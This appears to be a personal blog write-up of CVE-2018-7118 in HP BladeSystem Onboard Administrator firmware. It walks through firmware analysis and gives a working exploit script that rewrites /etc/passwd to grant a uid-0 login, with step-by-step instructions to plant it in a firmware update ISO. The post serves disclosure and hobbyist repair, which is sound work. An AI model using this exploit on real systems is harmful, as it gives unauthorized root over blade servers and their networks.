

+++
title = "CVE-2018-7118 - Rooting your HP BladeSystem"
date = 2021-09-15
+++

## Because it's [far too loud](https://youtu.be/SR2gjyeXbow?t=69)
#### (What, you had a nefarious reason to hack it? I just wanted to sleep.)

The HP BladeSystem is a now fairly dated blade enclosure.  
I used to run one in my bedroom - someone told me I should try keeping the cloud closer to home - and sleeping wearing ear defenders gets old after a while.  
What to do? There's no way to configure the fan curve and they can hit 18,000 RPM.


## Enter [CVE-2018-7118](https://nvd.nist.gov/vuln/detail/CVE-2018-7118)
### Let's look at the firmware

The firmware for the bladesystem enclosure manager is available online. This vulnerability requires OA firmware <= 4.80.

```bash
$ sha256sum hpoa480.bin
12809d4f96198b8c23480edf4b31c756dd58260b5d319d9becd7eb5a6f9b854f *hpoa480.bin
$ binwalk hpoa480.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
213           0xD5            uImage header, header size: 64 bytes, header CRC: 0x559534C9, created: 2017-12-13 11:17:17, image size: 1522926 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3A7352C0, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog"
277           0x115           gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:17:16
1523203       0x173E03        uImage header, header size: 64 bytes, header CRC: 0x9F09FD6A, created: 2017-12-13 11:10:30, image size: 3692025 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x80788EF4, OS: Linux, CPU: PowerPC, image type: RAMDisk Image, compression type: gzip, image name: ""initrd 171213-1007 build""
1523267       0x173E43        gzip compressed data, maximum compression, has original file name: "udog-initrd", from Unix, last modified: 2017-12-13 11:10:27
5215292       0x4F943C        Squashfs filesystem, big endian, version 2.1, size: 7447206 bytes, 2124 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:26
12665972      0xC14474        uImage header, header size: 64 bytes, header CRC: 0x9ECEFB67, created: 2017-12-13 11:24:53, image size: 1532777 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0x3555C9E5, OS: Linux, CPU: PowerPC, image type: OS Kernel Image, compression type: gzip, image name: "Linux-2.6.17.9-udog-440EPX"
12666036      0xC144B4        gzip compressed data, maximum compression, from Unix, last modified: 2017-12-13 11:24:53
14198813      0xD8A81D        Squashfs filesystem, big endian, version 2.1, size: 1111378 bytes, 47 inodes, blocksize: 65536 bytes, created: 2017-12-13 11:10:27
15313456      0xE9AA30        PEM certificate
15315387      0xE9B1BB        PEM certificate
15317046      0xE9B836        PEM certificate
``` 

Use `binwalk -e` on the firmware image to extract the multiple squashfs filesystems' contents.

I already have an idea of where I want to look: I know the firmware upgrade process for the blades involves loading an SPP iso on the onboard administrator and unpacking the firmware from it.  
I had a guess there might be some sort of unsafe extraction along the lines of [zip slip](https://snyk.io/research/zip-slip-vulnerability) - but for an RPM or HP SCEXE format instead - and looked for the code which handles this.

The majority of HP's custom binaries and scripts for the OA can be found under the sbin folder in the first squashfs `squashfs-root\sbin`.
`fw_mgmtd` is responsible for running firmware updates, and runs as root. To try to find more information about `scexe` unpacking, let's `grep` for that.

```bash
$ strings _hpoa480.bin.extracted/squashfs-root/sbin/fw_mgmtd | grep -i scexe
/ramdisk/unpack-scexe.lock
/usr/sbin/unpack-scexe %s >/dev/null 2>&1
Successfully unpacked HPE SCEXE SmartComponents.
HPE SCEXE Components are not found, Searching for RPM Components.
Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.
```

Looks like it calls `unpack-scexe`, which is a script. Nice! No need to disassemble to work out what this is doing.

```bash
dbg_echo ">>>>>>>>>>Unpacking $2:"
sh $2.scexe --unpack=$2  
rc=$?
rm $2.scexe
if [ $rc -eq 0 ]; then
    dbg_echo "Successfully unpacked $2"
    return $rc
else
    dbg_echo ">>>> Failed to unpack $2.scexe"
    return $rc
fi
```

### The exploit steps

Oh dear. It runs the supplied .scexe file as a script. Let's try replacing the HP supplied update with a shell script of our own choosing.  
The Linux install on this is extremely stripped down, no `passwd` command here.

```bash
#!/bin/sh
#!scexe

_SKIP=347
_INTERFACE_VERSION=scexe-interface-1.03-22
_INSTALLER=flash_ilo4

# the udog user already exists on this system with uid 0 before we touch anything
# the hash here is for the password compaq
# 
echo "udog:pD.WvCQWQJ4Kc:0:0:0,,:/:/bin/sh" > /etc/passwd.new
grep -v -e '^udog:' /etc/passwd >> /etc/passwd.new
mv /etc/passwd.new /etc/passwd
chmod 666 /etc/passwd
chown 1:1 /etc/passwd
exit 1
```

Replace/add it at this path `hp/swpackages/root.scexe`. Put the new SPP ISO somewhere accessible by the OA, either on an HTTP(no S) server or on an ext2 partition on a flash drive plugged into it.  
Use the web UI to start firmware management.  
Wait for it to fail the iLO upgrade step with `Unable to locate and/or unpack SCEXE/RPM HPE SmartComponents. OA/iLO will not be updated.`  
SSH in with username `udog` password `compaq`.




## Now to finally slow down those fans

Patching the thermal management code to use a different fan curve is probably the more correct way of fixing this, but that's a more involved process for another post if I ever run a BladeSystem again.
A simple fix which sets the fan speed every 10 seconds on a loop worked fine for me. The `fan` binary this calls is already provided by HP.

```bash
#!/usr/bin/env bash
# slowfan.sh

SPD=40
if [ $# -eq 1 ]; then
	SPD=$1
fi

while true; do
	sleep 10
	# i'm not being paid enough to put a loop here
	fan 1 $SPD
	fan 2 $SPD
	fan 3 $SPD
	fan 4 $SPD
	fan 5 $SPD
	fan 6 $SPD
done
```

A little crude, but functional.

## Responsible Disclosure, HPE, and the Onboard Administrator as a juicy target

HPE don't operate a public bug bounty program, and provided no compensation for reporting this issue.
It is likely there are other security issues with the Onboard Administrator - the very first thing I looked at as a plausible escalation path worked, which doesn't bode well - but don't have much incentive to look into them as I got what I needed and can control the fan speed.
Keep any Onboard Administrator safely isolated from anything less trusted than it as getting root on it means full access to: 

* The blades' iLO
* Whatever is running on those blades
* Any network physically connected to the VirtualConnect switches
* Any storage connected to other types of interconnect modules
* The potential to tamper with the firmware on any inserted device without any audit trail

The particular vulnerability here requires someone to already have access to an account with permissions to trigger firmware upgrades, but it is very plausible that a path starting with anonymous access to here exists.
